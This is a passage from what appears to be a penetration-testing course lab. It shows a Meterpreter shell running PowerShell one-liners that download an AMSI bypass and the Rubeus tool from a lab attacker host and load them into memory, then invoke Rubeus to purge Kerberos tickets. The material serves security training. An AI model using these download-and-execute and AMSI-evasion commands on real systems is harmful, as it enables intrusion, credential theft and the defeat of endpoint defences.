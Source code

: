 ```
meterpreter > shell
Process 1004 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX

PS C:\Windows\system32> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')

PS C:\Windows\system32> $assem = [System.Reflection.Assembly]::Load($data)
$assem = [System.Reflection.Assembly]::Load($data)
PS C:\Windows\system32> 
```

> Listing 38 - Disabling AMSI and downloading Rubeus into memory

Now Rubeus is loaded into memory through the _Load_ method of the _System.Reflection.Assembly_ namespace.

To interact with it, we'll take advantage of the fact that the _Main_ method is public and we can invoke all of its functionality by specifying the function name.[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5593-1)

As a simple example, let's invoke the _purge_ function to clear all Kerberos tickets from memory directly through the _Main_ method:

```
PS C:\Windows\system32> [Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("purge".Split())

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0 


[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!
PS C:\Windows\system32> 
```
